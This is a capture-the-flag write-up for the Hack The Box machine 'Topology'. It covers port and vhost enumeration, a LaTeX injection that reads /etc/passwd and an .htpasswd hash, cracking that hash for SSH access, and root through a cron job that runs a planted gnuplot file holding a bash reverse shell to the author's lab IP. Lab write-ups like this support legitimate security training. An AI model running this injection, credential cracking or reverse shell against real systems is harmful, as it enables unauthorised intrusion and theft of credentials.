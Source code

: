 # HTB - Topology

#### Ip: 10.129.158.218
#### Name: Topology
#### Rating: Easy

------------------------------------------------

Topology.png

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.158.218
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 16:02 CST
Nmap scan report for 10.129.158.218
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
```

Looking at the site we find a page for a university mathematics department:

htb_topology_site.png

The site has a link for "LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser" which attempts to forward to latex.topology.htb, so let's add that to `/etc/hosts`.

Let's also scan for more VHOSTS before enumerating this further:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ffuf -u http://topology.htb -H 'HOST: FUZZ.topology.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 1612 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1612
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 76ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 73ms]
    * FUZZ: stats
```

Cool, two more VHOSTS, let's add these to `/etc/hosts` as well.

The dev page requires authentication, which we don't have yet, and the stats page seems to just offer server load stats, with no real information.

Now visiting the Latex site we find a LaTex Equation Generator:

htb_topology_latex.png

Entering one of the site's examples we find:

htb_topology_example.png

Looking at the webpage root we find a few files we can download:

htb_topology_index.png

Checking out the header.tex file we find the site is using listings, which may give us access to other files:

htb_topology_header.png

### Exploitation

Researching more about this I find: https://ctan.org/pkg/listings?lang=en which mentions using `\lstinputlisting` for file reads.

But trying something like: `\lstinputlisting[/etc/passwd` continues to fail.

Heading over to trusty HackTricks and looking up LaTex injection we find a helpful note:

```
You might need to adjust injection with wrappers as [ or $.
```
So with these we can now wrap our command in `$` symbols like: `$\lstinputlisting{/etc/passwd}$` and successfully read the file:

htb_topology_etc.png

Searching for interesting files, I finally find an `.htpasswd` file for the dev site discovered earlier:

htb_topology_hash.png

Let's crack this using Hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1403/2870 MB (512 MB allocatable), 1MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<SNIP>

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
```

Cool, we now have the credentials `vdaisley:calculus20`

We can use this to SSH in and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ssh vdaisley@10.129.158.218
```

htb_topology_user.png

### Privilege Escalation

Poking around the box we find a directory called gnuplot in `/opt`:

```
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ file gnuplot/
gnuplot/: directory
vdaisley@topology:/opt$ cd gnuplot/
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
```

According to http://www.gnuplot.info/:

```
Gnuplot is a portable command-line driven graphing utility for Linux, Windows, macOS, OS/2, VMS, and other platforms.
```

Loading Pspy64 to the target to view running cronjobs, we see several jobs run by root coming out of the gnuplot directory:

htb_topology_cron.png


I'm particularly interested in the following cronjob:

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

This folder is interesting because while we can't list files, we can write to it:

```
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
vdaisley@topology:/opt/gnuplot$ touch test.txt
vdaisley@topology:/opt/gnuplot$ echo "hi" > test.txt
vdaisley@topology:/opt/gnuplot$ cat test.txt
hi
vdaisley@topology:/opt/gnuplot$ ls -la
ls: cannot open directory '.': Permission denied
```

So because the cronjob above is using wildcards and executing with gnuplot any `.plt` files, let's create one called shell.plt which will be executed with root permissions when the job runs:

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.162/443 0>&1'"
```

htb_topology_shell.png

Nice, we can now grab the final flag:

htb_topology_root.png

Thanks for following along!

-Ryan

-----------------------------------------